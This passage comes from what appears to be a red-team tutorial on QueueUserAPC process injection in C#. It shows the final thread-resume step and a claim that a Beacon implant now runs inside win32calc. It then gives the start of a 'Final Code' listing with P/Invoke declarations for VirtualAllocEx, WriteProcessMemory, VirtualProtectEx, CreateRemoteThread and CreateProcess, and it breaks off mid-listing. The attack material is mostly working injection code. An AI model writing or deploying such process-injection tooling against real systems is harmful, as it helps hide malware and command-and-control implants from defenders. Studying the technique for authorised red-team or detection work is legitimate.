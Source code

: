 4.  Resume the thread.
```cs
// Resume the thread
Win32.ResumeThread(pi.hThread);
```

You will now have a Beacon running in win32calc.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/queueuserapc/beacon.png)

# Final Code
```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
  
namespace QueueUserAPC
{
    internal class Win32
    {
        [DllImport("kernel32.dll", SetLastError = true)]
        static public extern uint ResumeThread(IntPtr hThread);
  
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAllocEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            int dwSize,
            AllocationType flAllocationType,
            MemoryProtection flProtect);
  
        [DllImport("kernel32.dll")]
        public static extern bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            int nSize,
            ref IntPtr lpNumberOfBytesWritten);
  
        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtectEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            int dwSize,
            MemoryProtection flNewProtect,
            out uint lpflOldProtect);
  
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);
  
        [DllImport("kernel32.dll")]
        public static extern bool CreateProcess(
```